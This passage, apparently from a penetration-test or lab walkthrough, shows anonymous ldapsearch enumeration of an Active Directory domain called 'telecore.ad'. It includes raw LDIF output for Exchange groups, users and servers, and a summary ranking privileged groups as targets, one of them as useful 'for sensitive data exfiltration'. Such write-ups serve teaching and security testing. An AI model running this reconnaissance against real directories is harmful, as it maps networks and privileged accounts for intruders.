 C=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115136.0Z
whenChanged: 20250910120404.0Z
uSNCreated: 89810
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
 s,DC=telecore,DC=ad
memberOf: CN=Windows Authorization Access Group,CN=Builtin,DC=telecore,DC=ad
uSNChanged: 92752
garbageCollPeriod: 1209600
name: Exchange Servers
objectGUID:: 2Ci/se9ij0OJMAT0royvPg==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxabQQAAA==
sAMAccountName: Exchange Servers
sAMAccountType: 268435456
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010101181633.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 0
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Exchange Trusted Subsystem, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC=tel
 ecore,DC=ad
objectClass: top
objectClass: group
cn: Exchange Trusted Subsystem
description: This group contains Exchange servers that run Exchange cmdlets on
  behalf of users via the management service. Its members have permission to r
 ead and modify all Exchange configuration, as well as user accounts and group
 s. This group should not be deleted.
member: CN=EX-SRV,OU=Win Servers,DC=telecore,DC=ad
distinguishedName: CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Securit
 y Groups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115136.0Z
whenChanged: 20250910120404.0Z
uSNCreated: 89815
memberOf: CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Group
 s,DC=telecore,DC=ad
uSNChanged: 92755
garbageCollPeriod: 1209600
name: Exchange Trusted Subsystem
objectGUID:: VugIwEew/0udwa4UP9ebzg==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxabgQAAA==
sAMAccountName: Exchange Trusted Subsystem
sAMAccountType: 268435456
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 0
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Managed Availability Servers, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Managed Availability Servers,OU=Microsoft Exchange Security Groups,DC=t
 elecore,DC=ad
objectClass: top
objectClass: group
cn: Managed Availability Servers
description: This group contains all the Managed Availability servers. This gr
 oup shouldn't be deleted.
member: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=telecore,
 DC=ad
member: CN=EX-SRV,OU=Win Servers,DC=telecore,DC=ad
distinguishedName: CN=Managed Availability Servers,OU=Microsoft Exchange Secur
 ity Groups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115136.0Z
whenChanged: 20250910120404.0Z
uSNCreated: 89820
uSNChanged: 92744
garbageCollPeriod: 1209600
name: Managed Availability Servers
objectGUID:: u4mg9H72G0W+JyVCCTVExw==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxabwQAAA==
sAMAccountName: Managed Availability Servers
sAMAccountType: 268435456
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 0
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Exchange Windows Permissions, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Exchange Windows Permissions,OU=Microsoft Exchange Security Groups,DC=t
 elecore,DC=ad
objectClass: top
objectClass: group
cn: Exchange Windows Permissions
description: This group contains Exchange servers that run Exchange cmdlets on
  behalf of users via the management service. Its members have permission to r
 ead and modify all Windows accounts and groups. This group should not be dele
 ted.
member: CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
distinguishedName: CN=Exchange Windows Permissions,OU=Microsoft Exchange Secur
 ity Groups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115136.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89825
uSNChanged: 89839
garbageCollPeriod: 1209600
name: Exchange Windows Permissions
objectGUID:: 7pCxmfJIbU6cP8OaMRGFjQ==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxacAQAAA==
sAMAccountName: Exchange Windows Permissions
sAMAccountType: 268435456
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714223649.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 0
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# ExchangeLegacyInterop, Microsoft Exchange Security Groups, telecore.ad
dn: CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=telecore
 ,DC=ad
objectClass: top
objectClass: group
cn: ExchangeLegacyInterop
description: This group is for interoperability with Exchange 2003 servers wit
 hin the same forest. This group should not be deleted.
distinguishedName: CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Gro
 ups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115136.0Z
whenChanged: 20250910115136.0Z
uSNCreated: 89830
uSNChanged: 89845
garbageCollPeriod: 1209600
name: ExchangeLegacyInterop
objectGUID:: PjdOpNK6fUi54j5GkOe8rQ==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxacQQAAA==
sAMAccountName: ExchangeLegacyInterop
sAMAccountType: 268435456
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010714042433.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 0
msExchMailboxAuditLogAgeLimit: 7776000
msExchRecipientSoftDeletedStatus: 0
msExchGroupSecurityFlags: 0
msExchLocalizationFlags: 0
msExchBypassAudit: FALSE

# Exchange Install Domain Servers, Microsoft Exchange System Objects, telecore.
 ad
dn: CN=Exchange Install Domain Servers,CN=Microsoft Exchange System Objects,DC
 =telecore,DC=ad
objectClass: top
objectClass: group
cn: Exchange Install Domain Servers
description: This group is used during Exchange setup and is not intended to b
 e used for other purposes.
member: CN=EX-SRV,OU=Win Servers,DC=telecore,DC=ad
distinguishedName: CN=Exchange Install Domain Servers,CN=Microsoft Exchange Sy
 stem Objects,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115218.0Z
whenChanged: 20250910120404.0Z
displayName: Exchange Install Domain Servers
uSNCreated: 92695
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=telecor
 e,DC=ad
uSNChanged: 92749
garbageCollPeriod: 1209600
name: Exchange Install Domain Servers
objectGUID:: memOpa42HkOMlY+YOgclIg==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxafAQAAA==
sAMAccountName: $S31000-F4NJL2TSR1PU
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 16010101000000.0Z
msExchAddressBookFlags: 1
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchBypassAudit: FALSE

# search reference
ref: ldap://ForestDnsZones.telecore.ad/DC=ForestDnsZones,DC=telecore,DC=ad

# search reference
ref: ldap://DomainDnsZones.telecore.ad/DC=DomainDnsZones,DC=telecore,DC=ad

# search reference
ref: ldap://telecore.ad/CN=Configuration,DC=telecore,DC=ad

# search result
search: 2
result: 0 Success

# numResponses: 60
# numEntries: 56
# numReferences: 3  
```

**Summary:**

- **Domain Admins / Enterprise Admins** - (Identified via membership references in other groups). Full control over the domain/forest.
- **Organization Management** -	The highest level of administrative access for the - Microsoft Exchange organization. Compromise leads to complete control of email infrastructure.
- **Discovery Management** - Members can perform e-discovery searches across all mailboxes in the organization. High value for sensitive data exfiltration.
ESX Admins	Likely provides administrative access to the VMware virtualization infrastructure.
- **Exchange Trusted Subsystem** - Highly privileged group often granted local administrative rights on Exchange servers.

**4) List Domain Users:**

This command will search the entire directory for all user objects. This is usually the largest and most valuable output.

```bash
ldapsearch -H ldap://10.5.2.2 -x -b "dc=telecore,dc=ad" "objectClass=user"
```

**Result:**

```bash   
# extended LDIF
#
# LDAPv3
# base <dc=telecore,dc=ad> with scope subtree
# filter: objectClass=user
# requesting: ALL
#

# Guest, Users, telecore.ad
dn: CN=Guest,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Guest
description: Built-in account for guest access to the computer/domain
distinguishedName: CN=Guest,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8197
memberOf: CN=Guests,CN=Builtin,DC=telecore,DC=ad
uSNChanged: 8197
name: Guest
objectGUID:: jB9Ga01pT0GBILz21deZ0w==
userAccountControl: 66082
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 0
primaryGroupID: 514
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxa9QEAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Guest
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# DC01, Domain Controllers, telecore.ad
dn: CN=DC01,OU=Domain Controllers,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: DC01
userCertificate:: MIIG8TCCBdmgAwIBAgITFgAAABJp+JQucZXccAAAAAAAEjANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA5MjYwOTMzMzdaFw0yNjA5MjYwOTMzMzdaMA
 AwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDIznh6HtkH9yKH0mhOMDBcZX8joOrbk9j
 Wm2D8PGsbf/AqMARYcF7PlAQy1YpN5nSgjWyknvEKTn8tVp5hEjETrmtFll7o+iEOZCucqU9IgfMU
 pwnaU+zL2xK6NJOLVn3lcG2zKsF/45tlitGxmWt62LmjAACbKLqNSz69hh+V1vuIzS75xw9wKKnvg
 O6ET4MT42mM/rZYzu4iDQhfuzF3R6mLokBuvfvAX2X/e+cCCeBTCggkcCTFT7cMAt7+/yzTR/hezU
 95MOjADIGJHs7slBkHZqACC+AZU4AJaDZDuEAcEUUul4msUDfWVIa6CJ4K4j43q0bLnbPLjkNHD1R
 NAgMBAAGjggQWMIIEEjA3BgkrBgEEAYI3FQcEKjAoBiArBgEEAYI3FQiE8917h6KhOoSFgzWC5dBr
 gfqjVhsBHQIBcwIBADAUBgNVHSUEDTALBgkrBgEEAYI3FRMwDgYDVR0PAQH/BAQDAgWgMBwGCSsGA
 QQBgjcVCgQPMA0wCwYJKwYBBAGCNxUTMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCAMA
 4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCGSAFlAwQBAjALBgl
 ghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0OBBYEFMKzRhZAbMBPS0RmMWkLzGNH
 ZfzKMB8GA1UdIwQYMBaAFBCZ6gHKqez7MgIqd1c4j+kMa43eMIHRBgNVHR8EgckwgcYwgcOggcCgg
 b2GgbpsZGFwOi8vL0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049UEtJLVNydixDTj1DRFAsQ049UH
 VibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWx
 lY29yZSxEQz1hZD9jZXJ0aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JM
 RGlzdHJpYnV0aW9uUG9pbnQwggFyBggrBgEFBQcBAQSCAWQwggFgMIGyBggrBgEFBQcwAoaBpWxkY
 XA6Ly8vQ049dGVsZWNvcmUtUEtJLVNSVi1DQSxDTj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2Vydm
 ljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10ZWxlY29yZSxEQz1hZD9jQUNlcnR
 pZmljYXRlP2Jhc2U/b2JqZWN0Q2xhc3M9Y2VydGlmaWNhdGlvbkF1dGhvcml0eTBdBggrBgEFBQcw
 AoZRaHR0cDovL1BLSS1TcnYudGVsZWNvcmUuYWQvQ2VydEVucm9sbC9QS0ktU3J2LnRlbGVjb3JlL
 mFkX3RlbGVjb3JlLVBLSS1TUlYtQ0EuY3J0MEoGCCsGAQUFBzAChj5odHRwOi8vcGtpLXNydi50ZW
 xlY29yZS5hZC9DZXJ0RW5yb2xsLy90ZWxlY29yZS1QS0ktU1JWLUNBLmNybDA/BgNVHREBAf8ENTA
 zoB8GCSsGAQQBgjcZAaASBBAzq0DfhOsVR4dzG0Bf1Ca3ghBEQzAxLnRlbGVjb3JlLmFkME4GCSsG
 AQQBgjcZAgRBMD+gPQYKKwYBBAGCNxkCAaAvBC1TLTEtNS0yMS0xNTg4MjQ3NDA3LTQxMDYyNTAzO
 S0xNTExNzk0NTIyLTEwMDAwDQYJKoZIhvcNAQELBQADggEBALHpPx+/bLpNC+AQVnrrYYZM6EU7pV
 uze9bMmQuqySWVz1tHQRfp7UydBlFqQ9IcnW+JDiZEPO5Dqq8DnSP0f+bfjQ7Jy/F5y5Io5gQCbuo
 GyW3VldNGJZ6ZKuyog6wdaZSLq8WumZTb4C2Y5R1wMhalBZMo/sDJpK71074q2iU29XSV8pa09i/z
 9K7zpzpFTQaPKpXgv76jg3fypdr3b6X+G9Nld4JlEtg80y/NLLRRkT7LJ8fwSjJKgcE9EpPzdm9jx
 MglY5/HrA3D1njl6MIiEq63gjjDQ5+oL6SNOoF08G9kT8M9qLsBWQFziO9bO4Dshw69jJkuVrJ73W
 +AY1o=
userCertificate:: MIIGPjCCBSagAwIBAgITFgAAAAOBbfEPBDNRKQAAAAAAAzANBgkqhkiG9w0B
 AQsFADBMMRIwEAYKCZImiZPyLGQBGRYCYWQxGDAWBgoJkiaJk/IsZAEZFgh0ZWxlY29yZTEcMBoGA
 1UEAxMTdGVsZWNvcmUtUEtJLVNSVi1DQTAeFw0yNTA4MjExNDM0MTBaFw0yNjA4MjExNDM0MTBaMB
 sxGTAXBgNVBAMTEERDMDEudGVsZWNvcmUuYWQwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoI
 BAQCwQ/uhgVRW3s+NdsV0MPr+XePP2j9WTImc4sIhDiIZVQ4wNozUXDXyKL3Bhiwvv0ctU1aAZBFO
 OczJ0KCXy60GKyJeBP7pGAR8IlO8huqpDimECeD9dwY8JbvX0miDf32VaS1Wk5q+Yw5LIjyzb1H5N
 YdjNGnWbUJ5BPt9rizDVf4rXJGlo0DL9Rs809UipesdqNRRzASlAbmcU/geaMNQnGB3ZuCc0UntXg
 I7GBA2GXFF+TLPrbw4rrGBB+Ego1RUICXzQCbQ3J1363ZnfKiY2gLYzz7x+DBlD9PtvzfIqzKXGs4
 QUBocCScmhZHc3wmBdnr5fy0Ax4hEKCwe72rdAgMBAAGjggNIMIIDRDAvBgkrBgEEAYI3FAIEIh4g
 AEQAbwBtAGEAaQBuAEMAbwBuAHQAcgBvAGwAbABlAHIwHQYDVR0lBBYwFAYIKwYBBQUHAwIGCCsGA
 QUFBwMBMA4GA1UdDwEB/wQEAwIFoDB4BgkqhkiG9w0BCQ8EazBpMA4GCCqGSIb3DQMCAgIAgDAOBg
 gqhkiG9w0DBAICAIAwCwYJYIZIAWUDBAEqMAsGCWCGSAFlAwQBLTALBglghkgBZQMEAQIwCwYJYIZ
 IAWUDBAEFMAcGBSsOAwIHMAoGCCqGSIb3DQMHMB0GA1UdDgQWBBT3bTKgW1iEXPl+tQT1MZ7hsnr5
 8DAfBgNVHSMEGDAWgBQQmeoByqns+zICKndXOI/pDGuN3jCB0QYDVR0fBIHJMIHGMIHDoIHAoIG9h
 oG6bGRhcDovLy9DTj10ZWxlY29yZS1QS0ktU1JWLUNBLENOPVBLSS1TcnYsQ049Q0RQLENOPVB1Ym
 xpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGVsZWN
 vcmUsREM9YWQ/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERp
 c3RyaWJ1dGlvblBvaW50MIHFBggrBgEFBQcBAQSBuDCBtTCBsgYIKwYBBQUHMAKGgaVsZGFwOi8vL
 0NOPXRlbGVjb3JlLVBLSS1TUlYtQ0EsQ049QUlBLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLE
 NOPVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9dGVsZWNvcmUsREM9YWQ/Y0FDZXJ0aWZpY2F
 0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkwPAYDVR0RBDUwM6AfBgkr
 BgEEAYI3GQGgEgQQM6tA34TrFUeHcxtAX9Qmt4IQREMwMS50ZWxlY29yZS5hZDBOBgkrBgEEAYI3G
 QIEQTA/oD0GCisGAQQBgjcZAgGgLwQtUy0xLTUtMjEtMTU4ODI0NzQwNy00MTA2MjUwMzktMTUxMT
 c5NDUyMi0xMDAwMA0GCSqGSIb3DQEBCwUAA4IBAQAi+lpbgcDSyouL97ZtyFdTeUAEMFk5AgULngl
 zWWwpxy4kWzvmzfXg3o9ZAXw8UYIKy1Rt4rWdVYHOGVca09HmaybJ2lfxs3UGffIs9StPwGi6gG6G
 OHkZC9Xj5qvaRZ5JqCsaM2Jckk5+orQkiDSRP7r9C/OZoiOaMN8L0rls2nuzmajL+0f2hKByEIUCc
 hH8BbcZbueXNjN5nSo4XfATkKJ83QrmRM/XsVrmiGzXsvtPC//DhXF/g7onJyAv6nmc6wM3fsQ6Uf
 EkkNARnSgNmBsD1llITpZhxnenhhJdZO+ReScM6ugk6ele4751MIN/46Vyuk8z2PoZMb3X2wM8
distinguishedName: CN=DC01,OU=Domain Controllers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20251126050005.0Z
uSNCreated: 12293
uSNChanged: 152858
name: DC01
objectGUID:: M6tA34TrFUeHcxtAX9Qmtw==
userAccountControl: 532480
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134086068143160154
localPolicyFlags: 0
pwdLastSet: 134086068055813130
primaryGroupID: 516
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxa6AMAAA==
accountExpires: 9223372036854775807
logonCount: 394
sAMAccountName: DC01$
sAMAccountType: 805306369
operatingSystem: Windows Server 2022 Standard
operatingSystemVersion: 10.0 (20348)
serverReferenceBL: CN=DC01,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=C
 onfiguration,DC=telecore,DC=ad
dNSHostName: DC01.telecore.ad
rIDSetReferences: CN=RID Set,CN=DC01,OU=Domain Controllers,DC=telecore,DC=ad
servicePrincipalName: exchangeAB/DC01
servicePrincipalName: exchangeAB/DC01.telecore.ad
servicePrincipalName: Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC01.telecore.
 ad
servicePrincipalName: ldap/DC01.telecore.ad/ForestDnsZones.telecore.ad
servicePrincipalName: ldap/DC01.telecore.ad/DomainDnsZones.telecore.ad
servicePrincipalName: DNS/DC01.telecore.ad
servicePrincipalName: GC/DC01.telecore.ad/telecore.ad
servicePrincipalName: RestrictedKrbHost/DC01.telecore.ad
servicePrincipalName: RestrictedKrbHost/DC01
servicePrincipalName: RPC/81115d3a-6f94-4958-9b3d-eb13fb60d65c._msdcs.telecore
 .ad
servicePrincipalName: HOST/DC01/TELECORE
servicePrincipalName: HOST/DC01.telecore.ad/TELECORE
servicePrincipalName: HOST/DC01
servicePrincipalName: HOST/DC01.telecore.ad
servicePrincipalName: HOST/DC01.telecore.ad/telecore.ad
servicePrincipalName: E3514235-4B06-11D1-AB04-00C04FC2DCD2/81115d3a-6f94-4958-
 9b3d-eb13fb60d65c/telecore.ad
servicePrincipalName: ldap/DC01/TELECORE
servicePrincipalName: ldap/81115d3a-6f94-4958-9b3d-eb13fb60d65c._msdcs.telecor
 e.ad
servicePrincipalName: ldap/DC01.telecore.ad/TELECORE
servicePrincipalName: ldap/DC01
servicePrincipalName: ldap/DC01.telecore.ad
servicePrincipalName: ldap/DC01.telecore.ad/telecore.ad
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z
lastLogonTimestamp: 134086068055188305
msDS-SupportedEncryptionTypes: 28
msDS-GenerationId:: Tz8RMvWyDcc=
msDFSR-ComputerReferenceBL: CN=DC01,CN=Topology,CN=Domain System Volume,CN=DFS
 R-GlobalSettings,CN=System,DC=telecore,DC=ad

# PKI-SRV, Win Servers, telecore.ad
dn: CN=PKI-SRV,OU=Win Servers,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: PKI-SRV
distinguishedName: CN=PKI-SRV,OU=Win Servers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729084553.0Z
whenChanged: 20251126051830.0Z
uSNCreated: 12802
memberOf: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=telecore,DC=ad
memberOf: CN=Cert Publishers,CN=Users,DC=telecore,DC=ad
uSNChanged: 152957
name: PKI-SRV
objectGUID:: 3SzZ4SbAGEazASGy2XvCPw==
userAccountControl: 4096
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134086079107691432
localPolicyFlags: 0
pwdLastSet: 134086079107691432
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaTwQAAA==
accountExpires: 9223372036854775807
logonCount: 836
sAMAccountName: PKI-SRV$
sAMAccountType: 805306369
operatingSystem: Windows Server 2022 Standard
operatingSystemVersion: 10.0 (20348)
dNSHostName: PKI-Srv.telecore.ad
servicePrincipalName: WSMAN/PKI-Srv
servicePrincipalName: WSMAN/PKI-Srv.telecore.ad
servicePrincipalName: RestrictedKrbHost/PKI-SRV
servicePrincipalName: HOST/PKI-SRV
servicePrincipalName: RestrictedKrbHost/PKI-Srv.telecore.ad
servicePrincipalName: HOST/PKI-Srv.telecore.ad
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: FALSE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250821141534.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 16010101181217.0Z
lastLogonTimestamp: 134086068370660169
msDS-SupportedEncryptionTypes: 28

# SQL-SRV, Win Servers, telecore.ad
dn: CN=SQL-SRV,OU=Win Servers,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: SQL-SRV
distinguishedName: CN=SQL-SRV,OU=Win Servers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729084814.0Z
whenChanged: 20251126050347.0Z
uSNCreated: 12827
uSNChanged: 152918
name: SQL-SRV
objectGUID:: nb3Zx7Of9Em6YSIuO7+eog==
userAccountControl: 4096
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 134086073061285206
localPolicyFlags: 0
pwdLastSet: 134086070273628939
primaryGroupID: 515
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaUAQAAA==
accountExpires: 9223372036854775807
logonCount: 313
sAMAccountName: SQL-SRV$
sAMAccountType: 805306369
operatingSystem: Windows Server 2022 Standard
operatingSystemVersion: 10.0 (20348)
dNSHostName: SQL-Srv.telecore.ad
servicePrincipalName: RestrictedKrbHost/SQL-SRV
servicePrincipalName: HOST/SQL-SRV
servicePrincipalName: RestrictedKrbHost/SQL-Srv.telecore.ad
servicePrincipalName: HOST/SQL-Srv.telecore.ad
objectCategory: CN=Computer,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: FALSE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250821141534.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 16010101181217.0Z
lastLogonTimestamp: 134086069018785179
msDS-SupportedEncryptionTypes: 28

# EX-SRV, Win Servers, telecore.ad
dn: CN=EX-SRV,OU=Win Servers,DC=telecore,DC=ad
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
objectClass: computer
cn: EX-SRV
distinguishedName: CN=EX-SRV,OU=Win Servers,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729085014.0Z
whenChanged: 20251126050121.0Z
uSNCreated: 12852
memberOf: CN=Exchange Install Domain Servers,CN=Microsoft Exchange System Obje
 cts,DC=telecore,DC=ad
memberOf: CN=Managed Availability Servers,OU=Microsoft Exchange Security Group
 s,DC=telecore,DC=ad
memberOf: CN=Exchange Trusted Subsystem,OU=Microsoft Exchange Security Groups,
 DC=telecore,DC=ad
memberOf: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=telecor
 e,DC=ad
uSNChanged: 152877
name: EX-SRV
objectGUID:: 8N4+UgV86EWctjVhQN4yYg==
userAccountControl: 4096
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 134039652877043232
lastLogoff: 0
lastLogon: 134086069101597594
